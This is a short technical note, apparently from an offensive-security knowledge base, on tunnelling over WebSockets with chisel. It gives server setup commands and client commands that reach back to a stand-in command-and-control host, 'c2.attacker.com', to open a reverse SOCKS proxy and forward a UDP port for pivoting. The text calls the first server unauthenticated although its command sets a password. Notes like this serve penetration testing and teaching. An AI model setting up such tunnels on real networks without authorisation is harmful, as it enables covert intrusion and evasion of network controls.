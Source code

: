 ```yaml
---
title: WebSockets Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/websocket]] protocol.

Start an unauthenticated [[notes/tools/chisel]] server on Linux.

~~~ bash
chisel server --port 80 --socks5 --reverse --auth proxy:"$(uuidgen -r | tee /dev/stderr)"
~~~

Alternatively start a server with authentication where the user `proxy` can bind only to unprivileged ports on localhost.

~~~ bash
cat << 'EOF' > ./users.json
{
  "proxy:passw0rd": [
    "^R:127\\.0\\.0\\.1:[0-9]{4,5}$"
  ]
}
EOF
chisel server --port 80 --socks5 --reverse --authfile ./users.json
~~~

Connect with the client from Linux to establish a reverse [[notes/pivoting/socks-proxy]].

~~~ bash
./chisel client --auth proxy:'passw0rd' http://c2.attacker.com R:127.0.0.1:1080:socks
~~~

Connect with the client from Windows to forward local port 53/udp to port 5300 on the server.

~~~ bat
.\chisel.exe client --fingerprint %fingerprint% --auth proxy:"passw0rd" http://c2.attacker.com R:127.0.0.1:1080:socks 53:127.0.0.1:5300/udp
~~~

> **Note:**
> In at least one instance a HTTP proxy blocked WebSocket connections.
> This can be verified on [piesocket.com](https://www.piesocket.com/websocket-tester).

Untested tools:

- [github.com/meteorite/chisel](https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate), fork with SOCKS5 UDP support
- [wstunnel](https://github.com/erebe/wstunnel), chisel alternative written in Rust, with UDP support
